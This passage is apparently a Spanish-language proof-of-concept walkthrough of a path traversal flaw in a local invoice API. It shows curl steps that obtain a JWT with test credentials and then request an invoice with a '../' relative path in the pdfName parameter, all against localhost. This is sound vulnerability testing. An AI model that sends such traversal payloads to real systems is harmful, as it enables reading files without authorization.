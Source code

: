 ![alt text](image-17.png)

#### Paso 4: Autenticaremos el usuario para saber el token de acceso
Mediante un `CURL`  con las credenciales del usuario de `id=1` nos autenticaremos para saber el `TOKEN` que utilizaremos para realizar el ataque.
```bash
  curl -i -X POST http://localhost:5000/auth/login \
 -H 'Content-Type: application/json' \
 -d '{"username":"test","password":"password"}'
```
![alt text](image-18.png)

#### Paso 5: Listaremos las facturas
Listaremos las facturas para tener un `invoiceId` válido para la `URL` de prueba `GET /invoices/{id}/invoice?pdfName=...`.
```bash
  docker compose exec -it postgres psql -U user -d jwt_api -c "SELECT id, \"userId\", amount, \"dueDate\", status FROM invoices ORDER BY id LIMIT 10;
```
![alt text](image-19.png)

#### Paso 6: Consulta al endpoint de la factura apuntando a la ruta relativa
Este paso es clave ya que acá se prueba la existencia del Path Traversal. Mediante `CURL` se realiza una petición al endpoint de la factura usando `invoiceId = 1` y `pdfName` igual a la ruta relativa calculada en el paso 2. Se incluye el `Authorization: Bearer <TOKEN>` obtenido en el paso 4 porque el endpoint está protegido. Si la respuesta contiene el contenido del archivo de prueba, se confirma la vulnerabilidad.
```bash
  curl -i -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwiaWF0IjoxNzU4NzEwNjAwLCJleHAiOjE3NTg3MTQyMDB9.1XtLaZlnac0FjBuI3KXiydqGUnm51KIGLQ10xhxatuw" \
  "http://localhost:5000/invoices/1/invoice?pdfName=../tmp/carpetaPOC/archivoEncontrado.txt"
```